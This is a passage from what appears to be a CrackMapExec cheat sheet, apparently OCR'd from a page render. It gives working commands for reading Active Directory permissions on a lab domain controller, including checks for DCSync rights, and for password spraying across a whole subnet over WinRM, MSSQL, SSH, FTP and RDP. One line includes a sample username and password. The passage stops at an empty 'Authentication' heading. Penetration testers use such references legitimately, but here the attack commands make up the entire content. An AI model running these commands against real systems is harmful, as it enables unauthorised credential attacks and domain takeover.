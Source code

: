 ## Read DACL Right

```
cme ldap lab-dc.lab.local -k --kdcHost lab-dc.lab.local -M daclread -o TARGET=Administrator ACTION=read
cme ldap lab-dc.lab.local -k --kdcHost lab-dc.lab.local -M daclread -o TARGET=Administrator ACTION=read PRINCIPAL=BlWasp
cme ldap lab-dc.lab.local -k --kdcHost lab-dc.lab.local -M daclread -o TARGET_DN="DC=lab,DC=LOCAL" ACTION=read RIGHTS=DCSync
cme ldap lab-dc.lab.local -k --kdcHost lab-dc.lab.local -M daclread -o TARGET=Administrator ACTION=read ACE_TYPE=denied
cme ldap lab-dc.lab.local -k --kdcHost lab-dc.lab.local -M daclread -o TARGET=../../targets.txt ACTION=backup
```

## Password Spraying

### WinRM

```
cme winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

### MSSQL

```
cme mssql 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

### SSH

```
cme ssh 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

### FTP

```
cme ftp 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

### RDP

```
cme rdp 192.168.1.0/24 -u user -p password
cme rdp 192.168.133.157 -u ron -p October2021
cme rdp 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

## Autrhentication

### WInRM
